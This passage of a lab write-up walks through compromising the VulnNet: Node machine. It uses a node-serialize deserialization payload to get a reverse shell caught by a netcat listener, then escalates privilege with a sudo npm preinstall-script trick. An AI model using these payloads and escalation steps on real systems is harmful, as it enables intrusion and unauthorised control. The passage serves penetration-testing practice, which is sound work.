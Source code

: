 Copy the payload and use the Decoder module to encode the new payload to base64 `{"username":"_$$ND_FUNC$$_function (){ reverse shell payload here }()","isGuest":true,"encoding": "utf-8"}`.

Execute the new payload using the Repeater module. Make sure you have an active listener on your attack machine beforehand.

```sh
$ rlwrap nc -nlvp 1234 
listening on [any] 1234 ...
connect to [10.4.32.195] from (UNKNOWN) [10.10.192.140] 37852
Connected!
whoami
www
```

We're in!

## Priv Esc from www-data to serv-manage
Now that we have a reverse shell, let's get ourselves a better shell.

```sh
python -c 'import pty; pty.spawn("/bin/sh")'
```

Let's proceed with enumerating for privilege escalation.

```sh
$ sudo -l

Matching Defaults entries for www on vulnnet-node:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www may run the following commands on vulnnet-node:
    (serv-manage) NOPASSWD: /usr/bin/npm
```

We have sudo access with `/usr/bin/npm` as the user `serv-manage`.

```sh
$ sudo -u serv-manage npm --version

6.14.10
```

Now that's done, we can go to [GTFOBins](https://gtfobins.github.io/) and search for `npm` exploit. Let's follow what GTFOBins recommends us to do.

```sh
$ TF=$(mktemp -d)
$ echo '{"scripts": {"preinstall": "/bin/sh"}}' > $TF/package.json
$ chmod 777 $TF # i added this to avoid permission problems
$ sudo -u serv-manage npm -C $TF i

> @ preinstall /tmp/tmp.EtxvAjaBSF
> /bin/sh

whoami
serv-manage
```
